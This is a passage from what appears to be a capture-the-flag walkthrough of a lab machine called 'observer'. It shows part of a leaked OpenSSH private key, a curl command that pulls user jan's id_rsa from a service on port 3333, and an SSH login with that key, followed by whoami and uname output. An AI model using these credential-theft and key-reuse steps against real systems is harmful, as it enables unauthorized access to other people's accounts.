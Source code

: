 ```
zSt5IkDtqk0tX0WVOk+zvbSCNzZmA4dNEXKSGQhAM7UrKLOnNQVKI+kWqfirNQ2UM2pkL2
u8uBq4rflJj9AD7QNL2f71aamftufQl3GL7sbjoQWMnBHSx1RBayg+BcukBJAtu17+skqM
k71rS9VcQs23gOOtadFNIb6ZD7owxwAAAAMBAAEAAAGAJcJ6RrkgvmOUmMGCPJvG4umowM
ptRXdZxslsxr4T9AwzeTSDPejR0AzdUk34dYHj2n1bWzGl5bgs3FJWX0yAaLvcc/QuHJyy
1IqMu0npLhQ59J9G+AXBHRLyedlg5NNEMr9ux/iyVRPOT1LV5m/jNeqSIUHIWRoUM3EIvY
wxRz4wvGzh7YECMItvHhSJgQYU4Eofme9MTcG+DJx31iAzXegjQNZuKdzyyAMuhHSjXiux
r6C/Pp/oXnaZ+QbRw/rsmZZhm1kpFwnC5QWLllWjUhYIyhzgkxeN+ELerf4VcRdXpR+9HO
DMTQf7xjAsDWAF23pS3jf4GSGM53LOvzvJ8GV8zFYZJeX02eiwn4GiY2lbAM01TAPsvM7e
Rbp9/U9wt7vpRJETHAQusQkQmxo+h6PztzdkNw0oszhY/IIusReYH5wJRtbQu7Eb0iu+HS
/AM7EEWQ8aG576LuXU2d4kjEQCyE3XqtisuteuHXW6/xX85fnuPovRYyx8e8j6Oo8RAAAA
wEhOxtgacCvsSrdBGNGif6/2k8rPnpp0QLitTclIrckQIBjYxKef7i+GHjBIUoyYLkwGDO
fWApUSugEzxVX3VyhkIHaiDi+7Ijy2GuAHQO1WsN4gS3xv9oMNjiA27dTvkSYx6SCFeCYX
t5BuyKDzk82rWj2U7HxkMrmuIdSSPy8Kev1I2A973qyDaV0GrSUDEPa3Hs6IZKpYOrA+aD
4WTrp2E74BG0Py+TaBra9QZe6DlopEtK01+n8k5uw1fa8CLAAAAMEA9p0hlgVu1qYY8MFa
JxNh2PsuLkRpxBd+gbQX+PSCHDsVx8NoD5YVdUlnr7Ysgubo8krNfJCYgfMRHRT/2WAJk2
U5mtYFUYwgCK4ITPC9IzVnRB1hcrrHD58rDSZV3B5gLyUSHgzB+GiNujym+95UrA644iE1
0umTs7tKEuZzmFiJBBUL+q97+1Qhx6XiIVJs1gbPLmNI6SlXcVh25UHP2DUU+gPpc6Gjsj
vquxbDcGtcvp+OgiHK6haNLqXbNbyrAAAAwQDyHX3sMMhbZEou35XxlOSNIOO6ijXyomx1
pvHApbImNyvIN49+b3mHfahKJp1n7cbsl0ypNSSaCPZp7iEdKzFHsxEuOIb0UyRBwgRmXw
zz2MKT58znZbqXibrawxCg7SEwHL6Z/IOfymgRnTehk0RrTkn1S1ZJaO+Zx0o09/O/dLwu
NkCnFoC0qz0G5Box7EOPENbPHaq6CDefWciYzy1yrADOdqUSlnGtS/TK1tBfgzZbwL4C6c
U+OPQBwGQPpFUAAAAMamFuQG9ic2VydmVyAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

`curl "http://192.168.56.122:3333/jan/.ssh/id_rsa" -s > /tmp/id_rsa`

`chmod 600 /tmp/id_rsa`

`ssh -i /tmp/id_rsa jan@192.168.56.122`:
```
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Aug 21 20:21:22 2023 from 192.168.0.100
```

![Victim: jan](https://img.shields.io/badge/Victim-jan-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
jan ←
```

`uname -a`:
```
Linux observer 6.1.0-11-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.38-4 (2023-08-08) x86_64 GNU/Linux
```
